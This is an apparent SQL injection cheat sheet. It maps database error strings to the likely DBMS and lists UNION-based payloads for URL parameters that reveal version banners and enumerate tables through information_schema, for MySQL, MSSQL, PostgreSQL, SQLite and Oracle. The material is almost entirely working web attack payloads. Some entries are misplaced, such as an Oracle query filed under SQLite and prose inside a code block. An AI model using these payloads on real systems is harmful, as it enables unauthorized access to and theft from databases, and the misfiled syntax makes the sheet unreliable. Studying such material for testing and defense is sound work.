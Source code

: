 | Error Fragment                         | Likely DBMS         |
| -------------------------------------- | ------------------- |
| You have an error in your SQL syntax   | MySQL               |
| unclosed quotation mark                | MSSQL               |
| ORA-00933 or ORA-00921                 | Oracle              |
| syntax error at or near                | PostgreSQL          |
| SQLite3::SQLException                  | SQLite              |
| MongoError or Unexpected token $       | MongoDB / NoSQL     |

# Database Banner grabbing

MySQL:  SELECT @@version;
```sql
SELECT version();
INSERT INTO members(id, user, pass) VALUES(1,''+SUBSTRING(@@version,1,10) ,10)
```

Input through URL parameter to reveal DB version
        `?id=1 UNION SELECT null, @@version -- -`

MSSQL:  SELECT @@version;
```sql
INSERT INTO members(id, user, pass) VALUES(1,''+SUBSTRING(@@version,1,10) ,10)
```

PostgreSQL: SELECT version();
```sql
UNION SELECT NULL, version(), NULL
```

SQLite: sqlite_version()
```sql
UNION SELECT NULL, sqlite_version(),NULL;
SELECT version FROM PRODUCT_COMPONENT_VERSION WHERE product LIKE 'Oracle Database%';
```

Oracle: SELECT * FROM v$version;
```sql
Input through URL parameter to reveal DB version
        ?id=1 UNION SELECT banner, null FROM v$version -- -
```

# Enumerate Database structure

MySQL:
```sql
UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = 'target_db' -- -
```

user-defined tables
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'databasename'
```
